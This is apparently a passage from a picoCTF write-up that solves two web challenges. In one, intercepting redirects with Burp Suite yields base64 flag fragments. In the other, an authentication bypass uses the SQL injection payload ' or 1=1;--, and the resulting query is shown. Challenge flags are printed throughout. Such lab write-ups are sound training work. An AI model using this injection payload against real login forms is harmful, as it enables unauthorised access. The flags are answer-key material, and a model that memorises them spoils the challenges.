 ==picoCTF{succ3ssfully_matchtheregex_f89ea585}==

---

## findme

**Description**
Help us test the form by submiting the username as `test` and password as `test!` The website running here.

**Solution**
We are given with username and password as `test:test!` 
```
 <section id="search-result">
      You searched for <span id="search-term"></span>
      <p>Waiting for server's response... lol</p>
    </section>
    <section>
      <p>I was redirected here by a friend of mine but i couldnt find anything. Help me search for flags :-)</p>
```
From this, I know that this is about redirection. Need to open burpsuite and intercept the reqeust. 

![image](https://hackmd.io/_uploads/BJqgVCmtC.png)

Set directory to that and got new alert. 
![image](https://hackmd.io/_uploads/H17XN0XFC.png)

Both directory actually a flag. Need to combine it and decode using base 64.

`echo "cGljb0NURntwcm94aWVzX2FsbF90aGVfd2F5XzAxZTc0OGRifQ==" | base64 -d
picoCTF{proxies_all_the_way_01e748db}  `

==picoCTF{proxies_all_the_way_01e748db}==

---

## SQLiLite

**Description**
Can you login to this website? Try to login here.

**Solution**
As the challenge mention about SQLi Lite, input with `"` to see how it works.
```
username: "
password: "
SQL query: SELECT * FROM users WHERE name='"' AND password='"'

Login failed.

```
Based on querym it can be bypass using this,
` 'or 1=1;--`
```
username: 'or 1=1;--
password: 'or 1=1;--
SQL query: SELECT * FROM users WHERE name=''or 1=1;--' AND password=''or 1=1;--'

Logged in! But can you see the flag, it is in plainsight.
```
Proof that we manage to bypass it. But next challenge, where the flag hide?.
>It hide. Use open source or inspect element.
![image](https://hackmd.io/_uploads/B1J6P0mFA.png)
![image](https://hackmd.io/_uploads/Hkrx_0QtR.png)
